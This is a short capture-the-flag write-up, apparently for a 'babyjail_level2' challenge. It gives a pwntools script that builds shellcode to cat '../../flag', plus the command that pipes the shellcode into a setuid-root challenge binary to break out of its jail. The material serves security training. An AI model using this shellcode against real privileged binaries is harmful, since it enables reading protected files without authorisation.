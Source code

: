 pwn scripts:

```
from pwn import *
context(log_level = 'info', arch = 'amd64', os = 'linux')
shellcode=shellcode=asm(shellcraft.cat('../../flag'))
sys.stdout.buffer.write(shellcode)
```

save the script above to /tmp/res.py and then execute:   
`python3 /tmp/res.py | ./babyjail_level2 a`    
babyjail_level2 is a file under /challenge with root bit.

